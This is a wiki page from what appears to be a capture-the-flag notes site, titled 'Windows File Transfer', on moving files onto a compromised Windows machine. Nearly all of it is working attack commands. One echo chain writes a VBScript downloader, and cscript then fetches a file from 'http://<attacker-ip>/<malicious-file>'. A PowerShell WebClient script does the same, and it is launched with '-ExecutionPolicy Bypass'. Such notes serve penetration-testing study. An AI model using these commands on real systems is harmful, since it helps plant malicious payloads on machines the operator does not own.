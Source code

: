 ```yaml
---
layout: article
title: Windows File Transfer
permalink: /wikis/ctf/windows-file-transfer
aside:
    toc: true
sidebar:
    nav: ctf
---
```


## cscript
If command execution is available and firewalls allow for file transfers: 

cscript.exe is a command-line version of the Windows Script Host that provides command-line options for setting script properties. With cscript.exe, you can run scripts by typing the name of a script file at the command prompt. 

create <b>wget.vbs</b> for vbscript transfer (in a single command) 
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs && echo StrFile = WScript.Arguments.Item(1) >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs && echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs && echo Err.Clear >> wget.vbs && echo Set http = Nothing >> wget.vbs && echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs && echo http.Open ^"GET^", strURL, False >> wget.vbs && echo http.Send >> wget.vbs && echo varByteArray = http.ResponseBody >> wget.vbs && echo Set http = Nothing >> wget.vbs && echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs && echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs && echo strData = ^"^" >> wget.vbs && echo strBuffer = ^"^" >> wget.vbs && echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs && echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs && echo Next >> wget.vbs && echo ts.Close >> wget.vbs 
```
 
Use cscript to run the wget.vbs script 
```
cscript <script-name> http://<attacker-ip>/<malicious-file> <output-file> 
```




## Powershell
Powershell transfer - red needs to be your own values 
```
echo $storageDir = $pwd> wget.ps1 && echo $webclient = New-Object System.Net.WebClient>> wget.ps1 && echo $url = "http://<attacker-ip>/<malicious-file>">> wget.ps1 

echo $file = "<output-file>">> wget.ps1 

echo $webclient.DownloadFile($url,$file)>> wget.ps1 
```
 
Confirm script creation 
```
type wget.ps1 
```
 
Execute PS script 
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File <scriptname> 
```
